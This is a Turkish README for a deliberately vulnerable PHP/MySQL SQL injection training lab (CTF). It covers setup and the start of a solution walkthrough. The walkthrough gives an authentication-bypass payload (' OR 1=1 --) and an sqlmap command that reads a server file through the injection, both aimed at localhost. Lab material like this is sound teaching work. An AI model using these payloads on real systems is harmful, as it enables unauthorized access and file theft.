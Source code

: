 # SQL Injection Zorlu CTF Labı

![CTF](https://img.shields.io/badge/CTF-Lab-blue)

---

## İçindekiler

- [Proje Hakkında](#proje-hakkında)
- [Özellikler](#özellikler)
- [Kurulum](#kurulum)
- [Nasıl Çözülür?](#nasıl-çözülür)
  - [1. Giriş Formunu Bypass Etme (SQL Injection)](#1-giriş-formunu-bypass-etme-sql-injection)
  - [2. Gizli Flag Dosyasını Bulma](#2-gizli-flag-dosyasını-bulma)
  - [3. Flag’i Decode Etme](#3-flag’i-decode-etme)
- [Dosya ve Klasör Yapısı](#dosya-ve-klasör-yapısı)
- [Güvenlik Notları](#güvenlik-notları)
- [İleri Seviye Öneriler](#ileri-seviye-öneriler)
- [Katkıda Bulunanlar](#katkıda-bulunanlar)
- [Lisans](#lisans)

---

## Proje Hakkında

Bu proje, siber güvenlik alanında kendini geliştirmek isteyenler için hazırlanmış, **zor seviyede SQL Injection açığı içeren** bir CTF (Capture The Flag) laboratuvarıdır. Amacı, gerçekçi ve dayanıklı bir ortamda SQL Injection tekniklerini kullanarak:

- Giriş kontrol mekanizmasını bypass etmek,
- Sistem dosyalarında gizlenmiş flag’i keşfetmek,
- Flag içeriğini base64 ve hex formatlarından çözümleyerek anlamak,

gibi kritik becerileri öğretmektir.

---

## Özellikler

- **Hazırlanmış ifade (Prepared Statements) yerine kasıtlı olarak zafiyetli SQL sorguları**
- **SQL Injection ile bypass edilebilir giriş formu**
- **Flag, veritabanında değil sistemin gizli bir klasöründe `.assets/style.css` dosyasına base64 olarak gömülü**
- **Flag içeriği hex formatında saklanmış, çözüm için analiz gerektiriyor**
- **Bootstrap tabanlı estetik ve kullanıcı dostu arayüz**
- **Yanıltıcı ipuçları ve sahte log kayıtlarıyla zorluk artırılmış**

---

## Kurulum

1. **Sunucu ortamı hazırla:**

   - Apache + PHP + MySQL çalışır durumda olmalı (örneğin XAMPP, MAMP veya benzeri).

2. **Projeyi sunucuya kopyala:**

   - Proje dosyalarını `htdocs` veya `www` dizinine yerleştir.

3. **Veritabanını oluştur ve import et:**

   - PhpMyAdmin veya komut satırı ile yeni bir `ctf_zor` veritabanı oluştur.
   - `db.sql` dosyasını veritabanına import et.

4. **Web tarayıcısında projeyi aç:**

   - Örneğin: `http://localhost/index.php`

---

## Nasıl Çözülür?

### 1. Giriş Formunu Bypass Etme (SQL Injection)

- Giriş formu kasıtlı olarak SQL Injection açığı içerir.
- Kullanıcı adı ve şifre alanlarına aşağıdaki payload’ları kullanarak giriş yapabilirsiniz:

```text
Kullanıcı Adı: ' OR 1=1 --
Şifre: HerhangiBirŞey
```
- Bu, sorgunun şu şekilde çalışmasını sağlar:

```sql
SELECT * FROM users WHERE username='' OR 1=1 -- ' AND password='HerhangiBirŞey'
```

- Bu sorgu her zaman true döner ve giriş başarılı olur.

## 2. Gizli Flag Dosyasını Bulma
Flag, veritabanında değil sistemin gizli .assets klasöründeki style.css dosyasında saklanıyor.

- Dosya içeriği içinde flag, base64 olarak gömülü.

- SQL Injection açığı kullanılarak dosya okuma yapılmalı (örneğin sqlmap ile):

```bash
sqlmap -u "http://localhost/vulnerable.php?id=1" --file-read="/var/www/html/.assets/style.css"
```
